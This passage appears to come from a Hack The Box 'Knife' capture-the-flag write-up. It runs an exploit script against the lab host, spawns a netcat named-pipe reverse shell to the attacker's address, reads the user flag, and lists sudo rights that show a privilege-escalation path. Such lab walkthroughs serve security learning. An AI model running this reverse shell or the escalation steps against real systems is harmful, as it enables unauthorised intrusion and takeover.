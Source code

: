 2\. Run a reverse shell from the target host:

```
~/Documents/htb/knife » python3 phpDev.py                                                       connor@kali
Enter the full host url:
http://10.10.10.242

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4321 > /tmp/f
```

3\. Go back to the nc listener. If everything was done right, you'll have a reverse shell:

```
~/Documents/htb/knife » nc -lvp 4321                                                        1 ↵ connor@kali                
listening on \[any\] 4321 ...                                                                                                
10.10.10.242: inverse host lookup failed: Unknown host                                                                     
connect to \[10.10.14.41\] from (UNKNOWN) \[10.10.10.242\] 51784                                                               
/bin/sh: 0: can't access tty; job control turned off                                                                       
$ id  
uid=1000(james) gid=1000(james) groups=1000(james)
$ pwd
/
$ cd ~
$ pwd
/home/james
$ ls
config.rb
new.py
user.txt
$ cat user.txt
968595a8c9cabc248d0c10b806e552dd
$ 
```

Next we need to elevate to root. For this box, it can be found with one of the first methods of privilege escalation you should check for:

```
$ sudo -l
Matching Defaults entries for james on knife:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
$
```
